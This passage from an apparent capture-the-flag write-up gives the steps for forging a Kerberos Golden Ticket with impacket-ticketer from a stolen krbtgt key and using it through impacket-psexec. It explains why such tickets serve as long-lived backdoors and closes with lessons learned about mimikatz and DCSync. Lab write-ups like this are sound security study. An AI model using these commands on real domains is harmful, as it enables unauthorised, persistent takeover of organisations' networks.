 4.  Sync our host clock to the host using ntpdate:
    -   `sudo ntpdate -s $domain`

5.  Using `impacket-ticketer` to create the Golden Ticket:
    -   `impacket-ticketer -aesKey $krbtgt -domain-sid $sid -domain $domain Administrator`
    -   {{< figure src="/ox-hugo/2024-11-14-152242_.png" >}}

6.  Export the ticket to the `KRB5CCNAME` Variable:
    -   `export KRB5CCNAME=./Administrator.ccache`
    -   {{< figure src="/ox-hugo/2024-11-14-152307_.png" >}}

7.  Use the ticket for connecting via `psexec`
    -   `impacket-psexec -k -no-pass $machine.$domain`
    -   {{< figure src="/ox-hugo/2024-11-14-152332_.png" >}}


#### Why create a golden ticket? {#why-create-a-golden-ticket}

-   "But bloodstiller why are you making a golden ticket if you have the admin hash?" Glad you asked:
    -   Creating a Golden Ticket during an engagement is a reliable way to maintain access over the long haul. Here's why:
    -   `KRBTGT` **Hash Dependence**:
        -   Golden Tickets are generated using the `KRBTGT` account hash from the target's domain controller.
        -   Unlike user account passwords, `KRBTGT` hashes are rarely rotated (and in many organizations, they are never changed), so the Golden Ticket remains valid indefinitely.
    -   `KRBTGT` **Hash—The Key to It All (for upto 10 years)**:
        -   A Golden Ticket can allow you to maintain access to a system for up to 10 years (yeah, you read that right the default lifespan of a golden ticket is 10 years) without needing additional credentials.
        -   This makes it a reliable backdoor, especially if re-access is needed long after initial entry.
        -   **Think about it**: even if they reset every user's password (including the administrator etc) your Golden Ticket is still valid because it's tied to the `KRBTGT` account, not individual users.


## Lessons Learned: {#lessons-learned}


### What did I learn? {#what-did-i-learn}

1.  I learned that even though I got a random bypass for a secondary route to root that I cannot recreate it no matter how hard I try (1 full day)
2.  I decided to actually put all of my ASREP-Roasting knowledge in an article so that hopefully cemeneted that further:
    -   <https://bloodstiller.com/articles/understandingasreproasting/>


### What silly mistakes did I make? {#what-silly-mistakes-did-i-make}

1.  Had some real slow moments when I had multiple evil-winrm sessions open and was wondering why mimikatz would not work, because I was running it from a user without DCSync privs&#x2026;..


## Sign off: {#sign-off}

Remember, folks as always: with great power comes great pwnage. Use this knowledge wisely, and always stay on the right side of the law!

Until next time, hack the planet!

&#x2013; Bloodstiller

&#x2013; Get in touch bloodstiller at proton dot me



